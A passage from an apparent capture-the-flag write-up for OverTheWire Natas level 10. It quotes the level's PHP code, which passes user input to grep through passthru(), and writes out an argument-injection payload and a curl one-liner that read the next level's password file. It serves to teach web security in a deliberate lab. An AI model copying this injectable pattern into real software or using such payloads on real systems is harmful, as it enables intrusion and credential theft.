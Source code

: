 ![natas10_index.jpg](screenshots/natas/natas10_index.jpg)

[Sourcecode](http://natas10.natas.labs.overthewire.org/index-source.html):

```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {
    $key = $_REQUEST["needle"];
}

if($key != "") {
    if(preg_match('/[;|&]/',$key)) {
        print "Input contains an illegal character!";
    } else {
        passthru("grep -i $key dictionary.txt");
    }
}
?>
```

This challenge is similar to the last level except the characters `;`, `|`, and `&` aren't allowed. Luckily for us, `grep` actually lets us search multiple files by just separating the filenames with a space. We didn't actually need the `;` to solve the last level but I added it so it would only print out the password.

We *could* use `needle=. /etc/natas_webpass/natas11`, but `needle=-he "[[:alnum:]]\{32\}" /etc/natas_webpass/natas11` also works and only returns the password.

```bash
curl -s "http://natas10:$natas10_pass@natas10.natas.labs.overthewire.org/" --data-urlencode 'needle=-he "[[:alnum:]]\{32\}" /etc/natas_webpass/natas11' | sed "s/$natas10_pass//g" | egrep -o [[:alnum:]]{32}
```

[*Back to top*](#overthewire---natas)

## Level 11
